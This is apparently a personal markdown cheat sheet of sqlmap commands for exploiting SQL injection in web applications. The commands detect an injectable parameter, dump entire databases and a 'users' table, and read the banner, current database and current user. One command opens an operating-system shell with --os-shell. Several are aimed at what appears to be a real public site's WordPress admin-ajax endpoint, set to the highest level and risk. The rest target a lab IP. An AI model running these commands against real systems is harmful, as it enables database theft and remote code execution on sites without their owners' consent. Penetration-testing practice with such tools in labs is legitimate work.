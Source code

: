 > Detect and take advantage of SQL injection vulnerabilities in web applications. Once it detects one or more SQL injections on the target host, the user can choose among a variety of options to perform an extensive back-end database management system fingerprint, retrieve DBMS session user and database, enumerate users, password hashes, privileges, databases, dump entire or user’s specific DBMS tables/columns, run his own SQL statement, read specific files on the file system and more.


#SQL 

Running `sqlmap` specifying `user` as the vulnerable parameter
```bash
sqlmap -u http://192.168.69.169/blindsqli.php?user=1 -p user
```

Running `sqlmap` to dump the contents of the database tables if successful
```bash
sqlmap -u http://192.168.69.169/blindsqli.php?user=1 -p user --dump
```

Running `sqlmap` specifying the specific database table (`users`) to be dumped.
```bash
sqlmap -u http://192.168.69.169/blindsqli.php?user=1 -p user --dump -T users
```

Running `sqlmap` with higher levels and higher risk
```bash
sqlmap "http://hentai-convention.org/wp-admin/admin-ajax.php?action=get_question&question_id=1 *" --level 5 --risk 3 --dump
```

Running `sqlmap` to get banner with `-b`
```bash
sqlmap "http://hentai-convention.org:80/wp-admin/admin-ajax.php?action=get_question&question_id=1 *" -b
```

Running `sqlmap` to get current db
```bash
sqlmap "http://hentai-convention.org:80/wp-admin/admin-ajax.php?action=get_question&question_id=1 *" --current-db
```

Running sqlmap to get current user
```bash
sqlmap "http://hentai-convention.org:80/wp-admin/admin-ajax.php?action=get_question&question_id=1 *" --current-user
```

#Shell_Access #Remote_Access

Running `sqlmap` to get shell
```bash
sqlmap --level 5 --risk 3 -r request.text -p ctl00%24ContentPlaceHolder1%24UsernameTextBox --os-shell --batch
```
